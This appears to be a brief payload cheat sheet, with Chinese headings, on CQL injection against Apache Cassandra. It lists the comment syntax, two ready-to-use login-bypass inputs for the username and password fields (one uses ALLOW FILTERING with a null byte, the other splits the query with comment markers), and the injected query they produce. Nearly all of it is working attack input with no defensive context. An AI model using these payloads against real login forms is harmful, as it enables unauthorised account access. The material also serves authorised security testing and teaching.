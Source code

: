 ## 注释

```sql
/* Cassandra Comment */
```

## 登录绕过

```sql
1.
username: admin' ALLOW FILTERING; %00
password: ANY

2.
username: admin'/*
password: */and pass>'
```

## 注入

```sql
SELECT * FROM users WHERE user = 'admin'/*' AND pass = '*/and pass>'' ALLOW FILTERING;
```
